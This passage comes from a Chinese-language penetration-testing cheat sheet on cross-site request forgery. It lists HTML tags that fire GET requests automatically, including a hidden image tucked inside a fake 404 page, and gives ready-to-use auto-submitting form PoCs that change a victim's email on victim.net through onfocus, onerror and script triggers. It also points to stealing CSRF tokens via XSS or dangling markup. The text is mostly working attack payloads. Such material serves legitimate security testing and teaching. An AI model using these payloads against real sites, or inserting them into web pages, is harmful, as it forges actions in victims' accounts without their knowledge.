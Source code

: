 ### **提取 CSRF 令牌**

如果 **CSRF 令牌** 被用作 **防御**，你可以尝试 **提取它**，利用 [**XSS**](xss-cross-site-scripting/#xss-stealing-csrf-tokens) 漏洞或 [**悬挂标记**](dangling-markup-html-scriptless-injection/) 漏洞。

### **使用 HTML 标签的 GET**
```xml
<img src="http://google.es?param=VALUE" style="display:none" />
<h1>404 - Page not found</h1>
The URL you are requesting is no longer available
```
其他可以用来自动发送 GET 请求的 HTML5 标签包括：
```html
<iframe src="..."></iframe>
<script src="..."></script>
<img src="..." alt="">
<embed src="...">
<audio src="...">
<video src="...">
<source src="..." type="...">
<video poster="...">
<link rel="stylesheet" href="...">
<object data="...">
<body background="...">
<div style="background: url('...');"></div>
<style>
body { background: url('...'); }
</style>
<bgsound src="...">
<track src="..." kind="subtitles">
<input type="image" src="..." alt="Submit Button">
```
### 表单 GET 请求
```html
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
<script>history.pushState('', '', '/')</script>
<form method="GET" action="https://victim.net/email/change-email">
<input type="hidden" name="email" value="some@email.com" />
<input type="submit" value="Submit request" />
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>
```
### 表单 POST 请求
```html
<html>
<body>
<script>history.pushState('', '', '/')</script>
<form method="POST" action="https://victim.net/email/change-email" id="csrfform">
<input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" /> <!-- Way 1 to autosubmit -->
<input type="submit" value="Submit request" />
<img src=x onerror="csrfform.submit();" /> <!-- Way 2 to autosubmit -->
</form>
<script>
document.forms[0].submit(); //Way 3 to autosubmit
</script>
</body>
```